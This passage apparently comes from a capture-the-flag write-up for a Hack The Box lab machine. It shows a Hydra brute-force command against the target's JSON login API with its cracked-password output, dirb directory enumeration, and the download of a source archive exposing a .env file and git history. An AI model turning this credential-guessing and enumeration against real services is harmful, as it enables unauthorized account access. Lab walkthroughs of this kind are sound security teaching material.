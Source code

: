```
Accept-Encoding:  gzip, deflate
Connection:  close
Content-Type:  application/json
Host: 10.10.11.120:3000
User-Agent: Mozilla/5.0 (Hydra)
Content-Length: 52
Cookie: 

{"email": "root@dasith.works","password": "shannon"}HTTP/1.1 400 Bad Request
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 17
ETag: W/"11-LBb+xM08Oz0tnf3F9safmaM6bN4"
Date: Thu, 24 Feb 2022 21:29:58 GMT
Connection: close

Password is wrong
```
This is the password the dasith user:
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-24 16:29:27
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.11.120:3000/api/user/login:{"email"\: "root@dasith.works","password"\: "^PASS^"}:F=Password is|must be at least:H=Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Connection: close:H=Content-Type: application/json
[3000][http-post-form] host: 10.10.11.120   login: root@dasith.works   password: mypassword
1 of 1 target successfully completed, 1 valid password found
```
But upon getting his auth-token and logging in to the /priv path, we get a message telling us that we are a normal user. So this doesn't help us.

#Further enumeration
So after chasing a dead end, i check what dirb found. It found a page called download. It doesn't really give us anything. Therefore I will further fuzz the area to see if I can find a file here.
```
---- Scanning URL: http://10.10.11.120:3000/ ----
+ http://10.10.11.120:3000/api (CODE:200|SIZE:93)                                           
+ http://10.10.11.120:3000/assets (CODE:301|SIZE:179)
+ http://10.10.11.120:3000/docs (CODE:200|SIZE:20720)
+ http://10.10.11.120:3000/download (CODE:301|SIZE:183)
```

 10.10.11.120:3000/files.zip
XXXXX seems to have found a .zip file. So lets download and check it out. A good idea is to make a folder that you extract everything to, if not the zip file might not have a parent folder and will just dump everything there.
After unszipping it we find the following:
```bash
┌──(kali㉿kali)-[~/Documents/HTB/secret/local-web]
└─$ ls -la        
total 116
drwxrwxr-x   8 kali kali  4096 Feb 16 15:51 .
drwxr-xr-x   3 kali kali  4096 Feb 23 17:16 ..
-rw-rw-r--   1 kali kali    72 Sep  3 01:59 .env
drwxrwxr-x   8 kali kali  4096 Feb 13 06:01 .git
-rw-rw-r--   1 kali kali   885 Sep  3 01:56 index.js
drwxrwxr-x   2 kali kali  4096 Feb 13 06:25 model
drwxrwxr-x 201 kali kali  4096 Aug 13  2021 node_modules
```